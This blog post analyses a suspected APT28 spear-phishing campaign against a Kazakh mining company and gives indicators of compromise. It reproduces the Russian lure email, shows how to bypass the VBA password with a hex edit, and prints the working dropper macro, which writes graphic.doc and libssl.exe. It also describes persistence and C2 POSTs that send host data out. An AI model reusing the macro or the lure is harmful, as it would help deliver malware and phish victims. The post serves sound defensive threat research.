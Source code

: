 ```yaml
---
layout: post
title:  "10/24/2019 - APT28: Targeted attacks against mining corporations in Kazakhstan"
date:   2019-10-24 00:00:00 -0700
categories: tech
author: MELTX0R
---
```

<center><img src="{{site.baseurl}}/assets/images/apt28Banner.jpg" style="max-width:100%;max-height:100%;"></center>

&nbsp;

## Summary

[APT28](https://attack.mitre.org/groups/G0007/) (also commonly known as FancyBear, STRONTIUM, Sednit, Sofacy, and more) is a threat group that has been attributed to Russia's Main Intelligence Directorate of the Russian General Staff by a July 2018 U.S. Department of Justice indictment. The group has been regarded as being active since at least 2004, and is espionage motivated. It's targets have included the private sector, military, and governments across the world. In this post, I will review a campaign that I believe to have been conducted by APT28.

&nbsp;

## Analysis


While performing research, I came across an interesting document titled *"gorodpavlodar.doc"*. This document was an attachment within an equally as interesting email - this email was sent to multiple individuals who, as far as my research indicates, work for a large mining corporation with operations located in Kazakhstan. The email purports to be sent from the "OFFICIAL RESOURCE OF THE CITY OF PAVLODAR", but is actually sent by the address *"pavlodar.news@bk.ru"*. Pavlodar is a city in northeastern Kazakhstan and the capital of the Pavlodar Region. The original email and translation are listed below, which prompts the recipient of the email to review the attached document.

&nbsp;


*ORIGINAL (RUSSIAN):*
{% highlight text %}

From: ОФИЦИАЛЬНЫЙ РЕСУРС ГОРОДА ПАВЛОДАР [pavlodar.news@bk.ru]
Subject: ГРАФИК ПОДКЛЮЧЕНИЯ ВАШЕГО ЖИЛОГО ДОМА К ГОРЯЧЕМУ ВОДОСНАБЖЕНИЮ

На сегодняшний день без горячего водоснабжения остаются 240 многоэтажных жилых домов,

передаёт корреспондент pavlodarnews.kz.

С 13 по 19 мая ТОО «Павлодарские тепловые сети» проводило гидравлические испытания на

инженерных сетях теплоснабжения в северной части города. Было выявлено 84 повреждения, в

связи с чем на сегодняшний день без ГВС остаются 240 многоэтажных жилых домов.

С графиком подключения жилых домов к горячему водоснабжению вы можете ознакомится во

вложении, прикрепленному к письму.

________________________________

ОФИЦИАЛЬНЫЙ ИНТЕРНЕТ-РЕСУРС АКИМАТА ГОРОДА ПАВЛОДАР
{% endhighlight %}


&nbsp;


*TRANSLATION:*
{% highlight text %}
From: OFFICIAL RESOURCE OF PAVLODAR CITY [pavlodar.news@bk.ru]
Subject: SCHEDULE OF CONNECTING YOUR RESIDENTIAL HOUSE TO HOT WATER SUPPLY

To date, 240 multi-storey residential buildings remain without hot water,

reports correspondent pavlodarnews.kz.

From May 13 to 19, Pavlodar Heating Networks LLP conducted hydraulic tests on

heat supply engineering networks in the northern part of the city. 84 injuries were identified, in

In connection with this, 240 multi-storey residential buildings remain without hot water supply.

You can familiarize yourself with the schedule for connecting residential buildings to hot water in

attachment attached to the letter.

________________________________

OFFICIAL INTERNET RESOURCE OF AKIMAT CITY PAVLODAR
{% endhighlight %}



&nbsp;



The attached document also contained text written in Russian, which translated roughly to *"Schedule of connecting your residential house to hot water supply"* and purported to be from the *"Official Internet Resource of Akimat City Pavlodar"*. The documented appeared to be a form for the recipients to fill out with their address, date of water elimination, and reason for lack of hot water. It also prompts the recipient to enable Editing/Content to view the "protected" document.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_LURE_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure "gorodpavlodar.doc"</span>

&nbsp;


Opening the Visual Basic console via the developer tab in Word reveals a password protected project that would be run if content were enabled. To bypass this password restriction, I opened the document within a Hex editor and searched for the string "DPB=" which contains the VBA password, and changed it to "DP*x*=". Opening the project following this causes Word to throw multiple errors regarding the invalid key (DPx), but allows me to bypass the password restriction. This allows me to view the contents of the project, displayed below, which looks to be a UserForm containing quite a lot of data in two of the input boxes, in addition to some labels.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_VBAPROJECT_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure VBA Project</span>

&nbsp;


If I extract the embedded macro, I can see that it essentially does two things - create two files (*graphic.doc* and *libssl.exe*) from the code embedded within the VBA project, and drops those files in the *"C:\Users\\[username]\AppData\Roaming\"* directory.


&nbsp;


{% highlight visualbasic %}
Private Sub Document_Open()
On Error Resume Next
Dim ds As String: ds = Environ("APPDATA") & "\graphic.doc"
Dim dd As String: dd = Environ("APPDATA") & tyihkcjfghkvb.dvxdcxxv.Caption & tyihkcjfghkvb.Label1.Caption & tyihkcjfghkvb.Label2.Caption
vbnbnm dd, drgvfdhre(tyihkcjfghkvb.dxvgfchftbxfh.Value)
vbnbnm ds, drgvfdhre(tyihkcjfghkvb.Text.Value)
Set qw = CreateObject("Word.Application")
qw.Visible = True
Set ww = qw.Documents.Open(ds)
Application.Quit SaveChanges:=wdDoNotSaveChanges
End Sub

Private Function drgvfdhre(tyruyt)
  Dim fghfhggjj, asddf
  Set fghfhggjj = CreateObject("Microsoft.XMLDOM")
  Set asddf = fghfhggjj.createElement("tmp")
  asddf.dataType = "bin.base64"
  asddf.Text = tyruyt
  drgvfdhre = asddf.nodeTypedValue
End Function

Private Sub vbnbnm(tgbyh, edcrf)
  Dim qsxx
  Set qsxx = CreateObject("ADODB.Stream")
  qsxx.Type = 1
  qsxx.Open
  qsxx.Write edcrf
  qsxx.SaveToFile tgbyh, 2
End Sub
{% endhighlight %}
<span style="font-size:small;"> Shown above: Macro within gorodpavlodar.doc  </span>

&nbsp;


Following execution of the macro, the original document is deleted and the secondary document *"graphic.doc"* is opened. This document appears to be a "completed" version of the form contained within the original document, and also contains an embedded macro that executes the aforementioned executable *"libssl.exe"*.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_GRAPHICDOC_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: graphic.doc </span>


&nbsp;


Following execution of *"libssl.exe"*, it will modify the registry to maintain persistence *(HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run)*. It will then initiate Command & Control communications to two hard-coded URL's via HTTP POST requests - *www.gorodpavlodar.kz/modules/Contact/Includes/1c.php* and *www.gorodpavlodar.kz/modules/Contact/Includes/2c.php*, along with a hard-coded User-Agent string *"Mozilla/5.0 (Windows NT 10.0; Win64; x64)"*. The information POST'd includes URL encoded host information - such as a unique ID, drive information, hostname, OS, username, bios, date, process listing, and more. In the past, these POST requests would receive binary data in the server responses, but they are now being met with 404 HTTP responses.


&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_ZEBROCY_C2PCAP_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected Zebrocy Implant C2 network capture</span>

&nbsp;


While I will leave the in-depth malware analysis to those more adept, the observed activity related to the binary up to this point is very reminiscent of APT28's "Zebrocy" implant. Furthermore, static analysis of the binary reveals numerous similarities to other documented Zebrocy samples - particularly the one documented [here](https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html) by *Vitali Kremez*. While this isn't conclusive evidence that APT28 is responsible for this sample, the similarities between it and other confirmed Zebrocy implants, in addition to the fact that Kazakhstan has historically been targeted by APT28, is quite suspect. Regardless, it was an interesting sample to review and gives insight into potential economic espionage activities.


&nbsp;

## Indicators

|Indicator|	Type	|Description|
|27e9247d28598207794424eeb5ea4b1b|MD5|libssl.exe - Suspected Zebrocy Implant|
|a863c2944581bc734619bf8d6ab1aef8|MD5|gorodpavlodar.doc - Suspected Zebrocy dropper document|
|57c2b46c7f2ad9aba80e4b6248f9367a|MD5|graphic.doc|
|/modules/Contact/Includes/1c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|/modules/Contact/Includes/2c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|pavlodar.news@bk.ru|Email Address | Email Address used in suspected APT28 campaign|




&nbsp;

## References/Further Reading

1. https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html
2. https://attack.mitre.org/groups/G0007/
